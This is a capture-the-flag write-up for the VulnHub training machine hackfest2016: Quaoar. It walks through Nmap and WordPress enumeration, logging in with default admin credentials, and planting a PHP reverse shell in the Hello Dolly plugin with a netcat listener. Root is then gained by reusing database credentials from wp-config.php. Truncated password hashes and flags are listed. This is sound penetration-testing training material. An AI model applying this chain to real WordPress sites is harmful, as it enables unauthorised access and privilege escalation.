

# [[VulnHub] hackfest2016: Quaoar](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/)

**Date**: 18/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [enumerate_app_wordpress](https://github.com/7h3rAm/writeups/search?q=enumerate_app_wordpress&unscoped_q=enumerate_app_wordpress), [exploit_wordpress_defaultcreds](https://github.com/7h3rAm/writeups/search?q=exploit_wordpress_defaultcreds&unscoped_q=exploit_wordpress_defaultcreds), [exploit_wordpress_plugin_hellodolly](https://github.com/7h3rAm/writeups/search?q=exploit_wordpress_plugin_hellodolly&unscoped_q=exploit_wordpress_plugin_hellodolly), [exploit_php_reverseshell](https://github.com/7h3rAm/writeups/search?q=exploit_php_reverseshell&unscoped_q=exploit_php_reverseshell), [privesc_mysql_creds](https://github.com/7h3rAm/writeups/search?q=privesc_mysql_creds&unscoped_q=privesc_mysql_creds), [privesc_credsreuse](https://github.com/7h3rAm/writeups/search?q=privesc_credsreuse&unscoped_q=privesc_credsreuse)  

## Overview
This is a writeup for VulnHub VM [hackfest2016: Quaoar](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):


### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:




### TTPs
1\. `80/tcp/http/Apache httpd 2.2.22 ((Ubuntu))`: [enumerate_app_wordpress](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [exploit_wordpress_defaultcreds](https://github.com/7h3rAm/writeups#exploit_wordpress_defaultcreds), [exploit_wordpress_plugin_hellodolly](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [exploit_php_reverseshell](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [privesc_mysql_creds](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [privesc_credsreuse](https://github.com/7h3rAm/writeups#privesc_credsreuse)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Wed Sep 18 14:14:44 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.quaoar/results/192.168.92.175/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.quaoar/results/192.168.92.175/scans/xml/_quick_tcp_nmap.xml 192.168.92.175
Nmap scan report for 192.168.92.175
Host is up, received arp-response (0.0084s latency).
Scanned at 2019-09-18 14:14:45 PDT for 23s
Not shown: 991 closed ports
Reason: 991 resets
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d0:0a:61:d5:d0:3a:38:c2:67:c3:c3:42:8f:ae:ab:e5 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAKhWvQi17DDbE+4rIT/g1SC8rxuv0MUowSJKUPEWlMVqfoLa6iWJVA2EzqUGPgtTnq6uuTr110Op760IivE6U3cBbgEz5xIz1AZJbB8MtOGqGK5EMnkfPr/cUn4PPnMPHt7I/JU4KGcTPcq3KA+tOZRH8m3PEaBg6vUXWSVKIybVAAAAFQDYJev6e7e0vLa/gEoTi8qyOhf2ZQAAAIEAg5bfw3eI3IUo4FEnjy7aY4pRsI+iGqwb29GLJXgonVhec0mtavAvwRwrJ5XFjgeVcHZQHySN7I+S66hKqTOQo4jalb6U9ZptVzIC8qkbeKToXqJLYwsGdDTTLyA+lRJfem9FMjaAl7mhX7ulm8szQ3q5g+D4jqJKXlpsMK42U+gAAACAV3s6IYys0w5l6Q/LzjBHVFy6Vm1J2jrT0MegkfzpxHI0CQz+EyXHrPG+Mu0iC9MuA8a7GjS5ryz2iqo/uEHPaoVYk2FpnsFXbCTvbeMruv5ifRh9LNKZ/vWR1Hl2FIi5RlNnEgeAIFymST8QuYEm7WWxZLXeyO9DwRSMPp2zNUU=
|   2048 bc:e0:3b:ef:97:99:9a:8b:9e:96:cf:02:cd:f1:5e:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDCzMPj80rWOSTS2cPOg24Yep4GX3GXio0p3MPI0g9AWya12ACkxFPwl3uOljwfE3UGzNS53H9HhXvhUd+yMaNbJVCWs2+2LsejPUCnykAlhSCKcrpviyitU3C3/5fojXtnrGyCBZzeyEQbkIaZ1QnUmykljjgCfDxH6qh50wRRpaEt7r0OTSKh7FDvTy/ly/EMUBOSq/UmMsO61/NNxDgWEPGvvWrbt7aKT71PJXM4i8xxEfi+K7rC3dJBGGV71X7m6o3S32/HLw71RbtRyy1gbfMY/pOduFmFuI+s7H5fI1/Ulid0AnJNXPCFUnZMEWLrBjhme/q4wjLxwFHKLyDd
|   256 8c:73:46:83:98:8f:0d:f7:f5:c8:e4:58:68:0f:80:75 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI9oPSx9ey3GvWq/2+7fWNxzZj9WF9BYq5Mf+dLbBbGHakQLPzIKRrHPL902cZhUqQ88hbceEdNZGH2MnFvpDt8=
53/tcp  open  domain      syn-ack ttl 64 ISC BIND 9.8.1-P1
| dns-nsid: 
|_  bind.version: 9.8.1-P1
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open  pop3        syn-ack ttl 64 Dovecot pop3d
|_pop3-capabilities: SASL TOP PIPELINING STLS RESP-CODES UIDL CAPA
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server/organizationalUnitName=ubuntu/emailAddress=root@ubuntu
| Issuer: commonName=ubuntu/organizationName=Dovecot mail server/organizationalUnitName=ubuntu/emailAddress=root@ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2016-10-07T04:32:43
| Not valid after:  2026-10-07T04:32:43
| MD5:   e242 d8cb 6557 1624 38af 0867 05e9 2677
| SHA-1: b5d0 537d 0850 11d0 e9c0 fb10 ca07 37c3 af10 9382
| -----BEGIN CERTIFICATE-----
| MIIDizCCAnOgAwIBAgIJAP8OUpUA7rC3MA0GCSqGSIb3DQEBBQUAMFwxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxDzANBgNVBAsMBnVidW50dTEPMA0GA1UE
| AwwGdWJ1bnR1MRowGAYJKoZIhvcNAQkBFgtyb290QHVidW50dTAeFw0xNjEwMDcw
| NDMyNDNaFw0yNjEwMDcwNDMyNDNaMFwxHDAaBgNVBAoME0RvdmVjb3QgbWFpbCBz
| ZXJ2ZXIxDzANBgNVBAsMBnVidW50dTEPMA0GA1UEAwwGdWJ1bnR1MRowGAYJKoZI
| hvcNAQkBFgtyb290QHVidW50dTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoC
| ggEBAMx7OvWQLwa6CLqojjvHuC2x7OjPP+jIUFMdoN2H1J+G/LdSy60QVEenqcqs
| SlHDFwmwDW2cCDC5tPaW2Qn5AI2Ts5TmSeNQTtlRcklAQN+tF8aQpiJ6jFjwMvbN
| CIpbEWfvheLCpSw2yWWOMcERFsmblOvdKo7KE/6fEvjdfYU1jJrVOLLqJFhgEwKX
| ImSx/OVqMA/u8zXOmqaqVfa8Rrzs3aAS2HwHS2TGo28Ay9vt4wuL7SuTrxX5lpfA
| Xi5TP2V9aatrpUwjlpGDolg/VptGPlQ3YRwqbZu3WWws11YoZXcOgYfYkJFR4gUs
| dwTZGGpSKb1by5VTLvXaUvB5iB0CAwEAAaNQME4wHQYDVR0OBBYEFOnF9jfUGBWq
| IM6SV5lPz3s6gn1cMB8GA1UdIwQYMBaAFOnF9jfUGBWqIM6SV5lPz3s6gn1cMAwG
| A1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBAG0OkadSFSlV9IqgonA3dYYi
| GisZQtrmXM8mHNMWYf5Ym3gRDurQHASxYZqNtcc4OCF/YoxU8avrKxeU7lTRScPx
| wgqbYcssNTtpZnhC6AExZBULZ56ZQSTy4//CZa10wgCxdevE+K+UtkOuNGdh0REO
| hzZWi0AMpwQWSXZfxl915MiViPPNLVu0IPVZqc6PE79st2ZEWp7Cf2iKG35KSm39
| xTyAQjVFpJXZtPTMRIsXel6mUZOh2AHebgqGYnF19fx443ndgx2LHfc1+T9UTgk6
| zSCmC8/kJcb2PXWvEEXJtabYi25JKGD8p0CDGWKw2Ly3cysl8PTGqAei8ldlVp8=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-18T21:15:09+00:00; +11s from scanner time.
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack ttl 64 Dovecot imapd
|_imap-capabilities: listed post-login have ENABLE more capabilities OK Pre-login LOGINDISABLEDA0001 SASL-IR STARTTLS LOGIN-REFERRALS IMAP4rev1 LITERAL+ ID IDLE
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server/organizationalUnitName=ubuntu/emailAddress=root@ubuntu
| Issuer: commonName=ubuntu/organizationName=Dovecot mail server/organizationalUnitName=ubuntu/emailAddress=root@ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2016-10-07T04:32:43
| Not valid after:  2026-10-07T04:32:43
| MD5:   e242 d8cb 6557 1624 38af 0867 05e9 2677
| SHA-1: b5d0 537d 0850 11d0 e9c0 fb10 ca07 37c3 af10 9382
| -----BEGIN CERTIFICATE-----
| MIIDizCCAnOgAwIBAgIJAP8OUpUA7rC3MA0GCSqGSIb3DQEBBQUAMFwxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxDzANBgNVBAsMBnVidW50dTEPMA0GA1UE
| AwwGdWJ1bnR1MRowGAYJKoZIhvcNAQkBFgtyb290QHVidW50dTAeFw0xNjEwMDcw
| NDMyNDNaFw0yNjEwMDcwNDMyNDNaMFwxHDAaBgNVBAoME0RvdmVjb3QgbWFpbCBz
| ZXJ2ZXIxDzANBgNVBAsMBnVidW50dTEPMA0GA1UEAwwGdWJ1bnR1MRowGAYJKoZI
| hvcNAQkBFgtyb290QHVidW50dTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoC
| ggEBAMx7OvWQLwa6CLqojjvHuC2x7OjPP+jIUFMdoN2H1J+G/LdSy60QVEenqcqs
| SlHDFwmwDW2cCDC5tPaW2Qn5AI2Ts5TmSeNQTtlRcklAQN+tF8aQpiJ6jFjwMvbN
| CIpbEWfvheLCpSw2yWWOMcERFsmblOvdKo7KE/6fEvjdfYU1jJrVOLLqJFhgEwKX
| ImSx/OVqMA/u8zXOmqaqVfa8Rrzs3aAS2HwHS2TGo28Ay9vt4wuL7SuTrxX5lpfA
| Xi5TP2V9aatrpUwjlpGDolg/VptGPlQ3YRwqbZu3WWws11YoZXcOgYfYkJFR4gUs
| dwTZGGpSKb1by5VTLvXaUvB5iB0CAwEAAaNQME4wHQYDVR0OBBYEFOnF9jfUGBWq
| IM6SV5lPz3s6gn1cMB8GA1UdIwQYMBaAFOnF9jfUGBWqIM6SV5lPz3s6gn1cMAwG
| A1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBAG0OkadSFSlV9IqgonA3dYYi
| GisZQtrmXM8mHNMWYf5Ym3gRDurQHASxYZqNtcc4OCF/YoxU8avrKxeU7lTRScPx
| wgqbYcssNTtpZnhC6AExZBULZ56ZQSTy4//CZa10wgCxdevE+K+UtkOuNGdh0REO
| hzZWi0AMpwQWSXZfxl915MiViPPNLVu0IPVZqc6PE79st2ZEWp7Cf2iKG35KSm39
| xTyAQjVFpJXZtPTMRIsXel6mUZOh2AHebgqGYnF19fx443ndgx2LHfc1+T9UTgk6
| zSCmC8/kJcb2PXWvEEXJtabYi25JKGD8p0CDGWKw2Ly3cysl8PTGqAei8ldlVp8=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-18T21:15:09+00:00; +11s from scanner time.
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.6.3 (workgroup: WORKGROUP)
993/tcp open  ssl/imap    syn-ack ttl 64 Dovecot imapd
|_imap-capabilities: listed have ENABLE more post-login capabilities Pre-login OK SASL-IR AUTH=PLAINA0001 LOGIN-REFERRALS IMAP4rev1 LITERAL+ ID IDLE
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server/organizationalUnitName=ubuntu/emailAddress=root@ubuntu
| Issuer: commonName=ubuntu/organizationName=Dovecot mail server/organizationalUnitName=ubuntu/emailAddress=root@ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2016-10-07T04:32:43
| Not valid after:  2026-10-07T04:32:43
| MD5:   e242 d8cb 6557 1624 38af 0867 05e9 2677
| SHA-1: b5d0 537d 0850 11d0 e9c0 fb10 ca07 37c3 af10 9382
| -----BEGIN CERTIFICATE-----
| MIIDizCCAnOgAwIBAgIJAP8OUpUA7rC3MA0GCSqGSIb3DQEBBQUAMFwxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxDzANBgNVBAsMBnVidW50dTEPMA0GA1UE
| AwwGdWJ1bnR1MRowGAYJKoZIhvcNAQkBFgtyb290QHVidW50dTAeFw0xNjEwMDcw
| NDMyNDNaFw0yNjEwMDcwNDMyNDNaMFwxHDAaBgNVBAoME0RvdmVjb3QgbWFpbCBz
| ZXJ2ZXIxDzANBgNVBAsMBnVidW50dTEPMA0GA1UEAwwGdWJ1bnR1MRowGAYJKoZI
| hvcNAQkBFgtyb290QHVidW50dTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoC
| ggEBAMx7OvWQLwa6CLqojjvHuC2x7OjPP+jIUFMdoN2H1J+G/LdSy60QVEenqcqs
| SlHDFwmwDW2cCDC5tPaW2Qn5AI2Ts5TmSeNQTtlRcklAQN+tF8aQpiJ6jFjwMvbN
| CIpbEWfvheLCpSw2yWWOMcERFsmblOvdKo7KE/6fEvjdfYU1jJrVOLLqJFhgEwKX
| ImSx/OVqMA/u8zXOmqaqVfa8Rrzs3aAS2HwHS2TGo28Ay9vt4wuL7SuTrxX5lpfA
| Xi5TP2V9aatrpUwjlpGDolg/VptGPlQ3YRwqbZu3WWws11YoZXcOgYfYkJFR4gUs
| dwTZGGpSKb1by5VTLvXaUvB5iB0CAwEAAaNQME4wHQYDVR0OBBYEFOnF9jfUGBWq
| IM6SV5lPz3s6gn1cMB8GA1UdIwQYMBaAFOnF9jfUGBWqIM6SV5lPz3s6gn1cMAwG
| A1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBAG0OkadSFSlV9IqgonA3dYYi
| GisZQtrmXM8mHNMWYf5Ym3gRDurQHASxYZqNtcc4OCF/YoxU8avrKxeU7lTRScPx
| wgqbYcssNTtpZnhC6AExZBULZ56ZQSTy4//CZa10wgCxdevE+K+UtkOuNGdh0REO
| hzZWi0AMpwQWSXZfxl915MiViPPNLVu0IPVZqc6PE79st2ZEWp7Cf2iKG35KSm39
| xTyAQjVFpJXZtPTMRIsXel6mUZOh2AHebgqGYnF19fx443ndgx2LHfc1+T9UTgk6
| zSCmC8/kJcb2PXWvEEXJtabYi25JKGD8p0CDGWKw2Ly3cysl8PTGqAei8ldlVp8=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-18T21:15:08+00:00; +11s from scanner time.
995/tcp open  ssl/pop3    syn-ack ttl 64 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP PIPELINING RESP-CODES USER UIDL CAPA
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server/organizationalUnitName=ubuntu/emailAddress=root@ubuntu
| Issuer: commonName=ubuntu/organizationName=Dovecot mail server/organizationalUnitName=ubuntu/emailAddress=root@ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2016-10-07T04:32:43
| Not valid after:  2026-10-07T04:32:43
| MD5:   e242 d8cb 6557 1624 38af 0867 05e9 2677
| SHA-1: b5d0 537d 0850 11d0 e9c0 fb10 ca07 37c3 af10 9382
| -----BEGIN CERTIFICATE-----
| MIIDizCCAnOgAwIBAgIJAP8OUpUA7rC3MA0GCSqGSIb3DQEBBQUAMFwxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxDzANBgNVBAsMBnVidW50dTEPMA0GA1UE
| AwwGdWJ1bnR1MRowGAYJKoZIhvcNAQkBFgtyb290QHVidW50dTAeFw0xNjEwMDcw
| NDMyNDNaFw0yNjEwMDcwNDMyNDNaMFwxHDAaBgNVBAoME0RvdmVjb3QgbWFpbCBz
| ZXJ2ZXIxDzANBgNVBAsMBnVidW50dTEPMA0GA1UEAwwGdWJ1bnR1MRowGAYJKoZI
| hvcNAQkBFgtyb290QHVidW50dTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoC
| ggEBAMx7OvWQLwa6CLqojjvHuC2x7OjPP+jIUFMdoN2H1J+G/LdSy60QVEenqcqs
| SlHDFwmwDW2cCDC5tPaW2Qn5AI2Ts5TmSeNQTtlRcklAQN+tF8aQpiJ6jFjwMvbN
| CIpbEWfvheLCpSw2yWWOMcERFsmblOvdKo7KE/6fEvjdfYU1jJrVOLLqJFhgEwKX
| ImSx/OVqMA/u8zXOmqaqVfa8Rrzs3aAS2HwHS2TGo28Ay9vt4wuL7SuTrxX5lpfA
| Xi5TP2V9aatrpUwjlpGDolg/VptGPlQ3YRwqbZu3WWws11YoZXcOgYfYkJFR4gUs
| dwTZGGpSKb1by5VTLvXaUvB5iB0CAwEAAaNQME4wHQYDVR0OBBYEFOnF9jfUGBWq
| IM6SV5lPz3s6gn1cMB8GA1UdIwQYMBaAFOnF9jfUGBWqIM6SV5lPz3s6gn1cMAwG
| A1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBAG0OkadSFSlV9IqgonA3dYYi
| GisZQtrmXM8mHNMWYf5Ym3gRDurQHASxYZqNtcc4OCF/YoxU8avrKxeU7lTRScPx
| wgqbYcssNTtpZnhC6AExZBULZ56ZQSTy4//CZa10wgCxdevE+K+UtkOuNGdh0REO
| hzZWi0AMpwQWSXZfxl915MiViPPNLVu0IPVZqc6PE79st2ZEWp7Cf2iKG35KSm39
| xTyAQjVFpJXZtPTMRIsXel6mUZOh2AHebgqGYnF19fx443ndgx2LHfc1+T9UTgk6
| zSCmC8/kJcb2PXWvEEXJtabYi25JKGD8p0CDGWKw2Ly3cysl8PTGqAei8ldlVp8=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-18T21:15:08+00:00; +11s from scanner time.
MAC Address: 00:0C:29:00:BD:18 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 40m10s, deviation: 1h37m58s, median: 10s
| nbstat: NetBIOS name: QUAOAR, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   QUAOAR<00>           Flags: <unique><active>
|   QUAOAR<03>           Flags: <unique><active>
|   QUAOAR<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 24536/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 22368/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 31858/udp): CLEAN (Timeout)
|   Check 4 (port 65163/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Unix (Samba 3.6.3)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-18T17:15:08-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 18 14:15:08 2019 -- 1 IP address (1 host up) scanned in 23.69 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

  

3\. Upon checking `robots.txt` file we find a `wordpress` entry:  
``` {.python .numberLines}
HTTP/1.1 200 OK
Date: Wed, 18 Sep 2019 21:24:15 GMT
Server: Apache/2.2.22 (Ubuntu)
Last-Modified: Mon, 24 Oct 2016 06:56:49 GMT
ETag: "24bac-10f-53f96e55d4191"
Accept-Ranges: bytes
Content-Length: 271
Vary: Accept-Encoding
Content-Type: text/plain
X-Pad: avoid browser bug

Disallow: Hackers
Allow: /wordpress/
   ____                              
#  /___ \_   _  __ _  ___   __ _ _ __ 
# //  / / | | |/ _` |/ _ \ / _` | '__|
#/ \_/ /| |_| | (_| | (_) | (_| | |   
#\___,_\ \__,_|\__,_|\___/ \__,_|_|   

```

  

4\. We run `wpscan` to enumerate users and find 2 hits:  
``` {.python .numberLines}
admin
wpuser

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp   |  ssh          |  OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
53/tcp   |  domain       |  ISC BIND 9.8.1-P1
80/tcp   |  http         |  Apache httpd 2.2.22 ((Ubuntu))
110/tcp  |  pop3         |  Dovecot pop3d
137/udp  |  netbios-ns?  |
139/tcp  |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  |  imap         |  Dovecot imapd
445/tcp  |  netbios-ssn  |  Samba smbd 3.6.3 (workgroup: WORKGROUP)
993/tcp  |  ssl/imap     |  Dovecot imapd
995/tcp  |  ssl/pop3     |  Dovecot pop3d
```
#### Files
``` {.python .numberLines}
http://192.168.92.175/robots.txt
```
#### Users
``` {.python .numberLines}
wordpress: admin, wpuser
```

\newpage
## Phase #2: Exploitation
1\. We tried the default credentials `admin/admin` and got administrative access to the Wordpress installation:  

  

2\. We then edit the `Hello Dolly` plugin file `hello.php`, add a PHP reverse shell to it and activate the plugin while running a `netcat` listener to catch incoming shell:  
``` {.python .numberLines}
nc -nlvp 9999

```

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@Quaoar> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Quaoar>  
www-data@Quaoar> uname
Linux Quaoar 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
www-data@Quaoar>  
www-data@Quaoar> ifconfig
eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
      link/ether 00:0c:29:00:bd:18 brd ff:ff:ff:ff:ff:ff
      inet 192.168.92.175/24 brd 192.168.92.255 scope global eth0
      inet6 fe80::20c:29ff:fe00:bd18/64 scope link 
         valid_lft forever preferred_lft forever
www-data@Quaoar>  
www-data@Quaoar> users
wpadmin
```

\newpage
## Phase #3: Privilege Escalation
1\. While exploring `home` directory for user `wpadmin` we find a `flag.txt` file:  
``` {.python .numberLines}
cat /home/wpadmin/flag.txt

```

  

2\. While exploring the `/var/www/wordpress` directory we find `wp-config.php` file with MySQL credentials in it:  
``` {.python .numberLines}
cat /var/www/wordpress/wp-config.php → root/rootpassword!

```

  

3\. We test these credentials to gain `root` privleges and are successfully given access:  
``` {.python .numberLines}
su

```

  

4\. We then read the `/root/flag.txt` file to complete the challenge:  
``` {.python .numberLines}
cat /root/flag.txt

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$CM3c1cdI$HbQWZlQdGEWV8yo3j7M84i1/RFK4G7fafTUIUYLWk52zm9O8KRLhqZenF8KbqsUjHlZQk4VmNEeEbBCRj........................
wpadmin:$6$FtTN/YPC$iidNFmRVpQ1p2kkfoOZ6OzNPqR95DQ/7G10aze2CA2W3ik/sHHyEPaNNY57tMvRDU0/Rs62FEimiKXD2V........................
```
### Credentials
``` {.python .numberLines}
ssh: wpadmin/wpad..., root/rootpassw....
wordpress: admin/ad...
```
### Flags
``` {.python .numberLines}
2bafe61f03117ac66a73c3c51.......
8e3f9ec016e3598c5eec11fd3.......
```

## References
[+] <https://www.vulnhub.com/entry/hackfest2016-quaoar,180/>  
[+] <https://www.blackroomsec.com/quaoar-write-up/>  
